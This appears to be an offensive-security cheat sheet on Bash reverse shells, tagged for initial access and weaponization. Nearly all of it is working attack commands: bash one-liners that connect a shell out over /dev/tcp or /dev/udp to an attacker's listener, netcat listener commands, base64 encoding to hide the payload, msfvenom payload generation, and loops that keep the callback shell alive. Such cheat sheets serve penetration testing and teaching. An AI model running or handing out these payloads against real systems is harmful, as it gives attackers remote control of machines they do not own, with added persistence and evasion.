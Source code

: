 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - T1059-004
  - linux
---
```

# Bash

## 01 - TCP Method

Target

```
$ /bin/bash -i >& /dev/tcp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/tcp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -lnvp <LPORT>
```

## 02 - UDP Method

Target

```
$ /bin/bash -i >& /dev/udp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/udp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -luvp <LPORT>
```

You can encode it with base64 then execute it.

```
$ echo <base64_payload> | base64 -d

$ echo <base64_payload> | basenc --base64 -d
```

## 03 - Generate via `msfvenom`

### 3.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse_bash lhost=<IP> lport=<PORT>
```

### 3.2 - UDP Method

```
$ msfvenom -p cmd/unix/reverse_bash_udp lhost=<IP> lport=<PORT>
```

## 04 - Persistent Callback Shell

In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/bash -c /path/to/shell; sleep 10; done

$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

### Github

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

### MITRE

- [MITRE T1059.004: Command and Scripting Interpreter - Unix Shell](https://attack.mitre.org/techniques/T1059/004/)
